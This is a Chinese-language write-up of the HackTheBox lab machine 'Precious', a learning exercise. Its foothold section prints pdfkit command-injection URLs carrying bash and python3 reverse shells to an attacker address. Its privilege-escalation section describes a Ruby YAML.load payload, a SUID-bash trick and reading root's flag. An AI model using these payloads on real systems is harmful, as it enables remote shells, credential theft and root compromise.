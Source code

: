 ```yaml
---
tags:
  - HTB/Linux
  - HTB/Easy
---
```


## 扫描

```bash
ports=$(nmap -n -Pn -sS  -p- <ip> --max-retries=1 | grep ^[0-9] | cut -d / -f1 | tr '\n' ',' | sed s/,$//)
nmap -v -n -sC -sV -p ${ports} <ip> -oN Precious.nmap
```

只扫出22、80端口。


## 漏洞分析

22端口（openssh 8.4p1 debian 5+deb11u1 (protocol 2.0)）找了一下似乎无漏洞。

### 80端口

访问网页无显示，URL会跳转到 `precious.htb`，将其加入hosts文件后即可访问。

- 无robots  
- 网页源码无发现  
- 目录枚举无发现  
- 网页功能似乎是将网页转pdf  

#### 研究网页功能

尝试几个网址无特别反应，似乎一定要 `http://` 或 `https://` 开头，且一直报错说不能用remote URL。

*迷茫……看了眼Forum说既然不能用remote那可以试试local……*

尝试本地用python开启http服务，随便建立一个文本，回到网页输入自己的URL。  
会弹网页新标签显示刚刚文本的pdf。  
又试了下将文本改为html，里面插入js的 `alert(1)`。再次访问，弹出pdf顺便js也有反映。不过XSS不大熟，止步于此……

*看Forum的提示，似乎要下载pdf看看属性。*

下载pdf，属性里没找到啥。  
`strings` 命令看到 **pdfkit**，搜了下有[PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)。
        
尝试 `` http://<ip>/?name=#{'%20`sleep 5`'} ``。有效，5秒后会直接显示web根目录下的内容。  


## foothold

- 尝试反弹shell（无效）  
```
http://<ip>/?name=#{'%20\`bash -i >& /dev/tcp/<ip>/<port> 0>&1`'} 
```

- 试一下base64（无效）  
``` 
http://<ip>/?name=#{'%20`echo YmFzaCAtaSA+JiAv......IDA+JjE=|base64 -d`'} 
```  

- 套一层shell执行（无效）  
```
http://<ip>/?name=#{'%20`bash -c "echo YmFzaCAtaSA+JiAv......IDA+JjE=|base64 -d"`'} 
```  

- python3可以  
```
http://<ip>/?name=#{'%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`'} 
```

*不过后来回顾的时候，在本地试了一下无效的那几个：*  
*第一个报错：没有那个文件或目录: /dev/tcp/&lt;ip&gt;/&lt;port&gt;。*  
*第二、三个报错：>&: 没有那个文件或目录。*  
*而base64尝试这个可以： `` http://example.com/?name=#{'%20`echo YmFzaCAtaSA+JiAv......IDA+JjE=|base64 -d|bash`'} `` (不能用 `bash -c` ？)*  

*后来才发现下载完pdf后，get shell其实并不必一直用local URL。直接 `` http://example.com/?name=#{'%20`sleep 5`'} `` 也行。*

*以及其实既然 [PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) 是ruby的pdfkit漏洞，其实直接找ruby的getshell写法就是了。。。*

get shell后，`id` 是ruby账户。

### 升级为交互式shell

因为本来就是python反弹的bash所以直接：
```bash
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```


## get user flag 

home目录有用户 `henry`，而ruby的家目录 `.bundle/config` 里有其密码。  
转到henry账号，其家目录有flag。


## 提权

`sudo -l` 一般是我首先会尝试的。  
henry的 `sudo -l` 发现有root权限无密码执行 `/usr/bin/ruby /opt/update_dependencies.rb` 

### PoC

`update_dependencies.rb` 脚本里面有load文件的方法就十分让人在意（`YAML.load(File.read("dependencies.yml"))`）  
谷歌：ruby yaml.load file exploit  
找到这篇[PoC文章](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)（文章最下面有github的payload）

复制 `/opt/sample/dependencies.yml` (到家目录)并将payload写入。  
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
``` 
执行后有回显id命令的结果是root。

### 方法1：反弹root shell

注入 `"bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'"`  

- 只有 'bash -i >& /dev/tcp/&lt;ip&gt;/&lt;port&gt; 0>&1' 的话会有"bad fd"报错。

### 方法2：给bash命令添加SUID

注入 `"chmod +s /bin/bash"`，然后执行 `bash -p` 即可获得附加了root的shell  

- *ref: <https://0xdedinfosec.vercel.app/blog/hackthebox-precious-writeup>*
- 还不太懂这个 `bash -p` 的原理，留坑

### 方法3：命令执行

后来想想，由于只是单纯拿flag

- 可以直接注入 `"bash"` 拿root shell
- 或者直接注入 `"cat /root/root.txt"` 拿flag


## get root falg

`cat /root/root.txt`

---

## 后记

2022/12/4  
其实算是第一次正经打HTB，以前稍微试了下还是觉得Web渗透知识不够的话有点难。  
主要是看这两天群友讨论Precious，然后也有大佬们给出提示，所以想着既然有提示那么我也想要尝试一下……  

想想这个靶机打了好几个小时，还是有点超出自己的实力范围了。不过回顾起来又觉得其实没那么难，很多知识都有接触过，还是实战经验太少了吧。  
围观群里讨论也学到了很多细节，比如get shell前应该先判断环境（如用 `which python python2 python3`）。自己这次就是乱试了几个偶然用python3反弹到了。  

不过[pdfkit这个PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)的命令执行似乎有限，有些命令并无/或者自己不知道哪里有回显（如 `id`）。后来搜wp时发现[另一个类似的注入方式](https://0xdedinfosec.vercel.app/blog/hackthebox-precious-writeup)（`` http://10.10.XX.XX/?name=%20`id` ``），在用local URL时会在网页回显。  
也不知道为何明明看的是同一个[pdfkit这个PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)，为什么会想到把 `#{}` 删掉……
